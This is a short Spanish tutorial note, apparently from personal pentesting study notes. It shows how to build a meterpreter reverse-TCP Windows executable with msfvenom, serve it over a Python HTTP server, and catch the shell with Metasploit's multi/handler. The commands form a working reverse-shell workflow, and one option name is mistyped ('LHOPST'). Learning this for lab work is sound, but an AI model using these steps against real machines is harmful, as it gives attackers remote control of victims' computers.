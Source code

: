 
Para generar un Payload con [[00. Apuntes/01. Herramientas/MSFVENOM|MSFVENOM]] deberemos ejecutar el siguiente comando.
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOPST=<Ip_local> LPORT=443 -f exe -o pwnedWin.exe`

Se generara un Payload, desde la ubicación en la que estamos que es en la que se haya generado el payload levantamos un servidor http con `python3` en el puerto 80
`python3 -m http.server 80`

En la maquina victima abrimos la IP en el navegador de nuestra maquina atacante y descargamos el archivo creado

Nos ponemos a la escucha con [[METASPLOIT]] con la herramienta `multihandler` ejecutamos el siguiente comando para usarlo
`use /multi/handler`

Si vemos las opciones nos pide la IP de la maquina atacante y también nos pide el puerto de escucha que es el que hemos configurado previamente con [[00. Apuntes/01. Herramientas/MSFVENOM|MSFVENOM]]
`set LHOST <IP-atacante>`
`set LPORT <Puerto-configurado>`

Debemos de modificar el payload de `multihandler`
`set PAYLOAD <payload-msfvenom>`

En la maquina victima ejecutamos el  archivo `.exe` habiendo antes ejecutado el `multihandler` y nos devolverá una terminal meterpreter
